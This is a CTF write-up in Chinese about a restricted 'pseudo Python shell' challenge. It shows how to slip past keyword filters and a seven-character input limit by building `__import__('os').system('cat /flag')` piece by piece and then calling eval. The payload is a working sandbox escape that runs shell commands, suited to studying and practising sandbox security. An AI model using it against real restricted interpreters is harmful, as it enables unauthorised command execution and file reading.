



# 题目描述

flag在/flag，每个容器只支持同时连接一个客户端。部分指令可能导致容器无响应，如果出现这样的情况请重启题目环境

# 解题思路

下发题目，得到一个nc连接的地址，用nc命令连接



可以看到是一个类似的`shell`窗口，查询得知这是CTF中的伪`python shell`题目；

> 伪Python shell是指一种CTF（Capture The Flag）中的题目类型，它要求我们在一个受限制的Python环境中执行代码，从而获取flag。伪Python shell的特点和作用是考察我们对Python语言的熟悉程度和逆向能力，以及如何利用Python的一些特性来绕过沙箱限制。解决这样的CTF题目的方法有很多，具体取决于题目的限制条件和漏洞点，一般需要利用字符串拼接、类静态方法、反序列化、系统命令等技巧来构造有效的payload。
>


输入一些命令发现全是输出`nop`，根据题目描述，`flag`在`' /flag '`中，所以我们的思路是思路是通过输入python代码执行`shell`命令但是题目过滤了这些命令（如`import print`等）。并且一次发现只能输入7个字符（包括`''`）



所以我们换一个查询思路：`__import__('os').system('cat /flag')`

并且因为题目限制了每次输入的字符数，所以我们需要通过`_+`来连接每次输入的代码：

```python
'__imp'
_+'ort'
_+'__('
_+"'os"
_+"')."
_+"sys"
_+"tem"
_+"('c"
_+"at "
_+"/fl"
_+"ag'"
_+")"
eval(_)
```

> '_'+ 表示在下一个字符串拼接操作之前对字符串进行了临时的拼接操作。例如，代码中的 `_+'ort'` 实际上是 `_ + 'ort'`，表示将上一个字符串 `_` 与 `'ort'` 进行拼接。这种形式的字符串拼接操作用于在代码中以一种连贯的方式构建出整个字符串。

得到`flag{80f772f1-6740-4571-87ba-cf6b3db34581}`



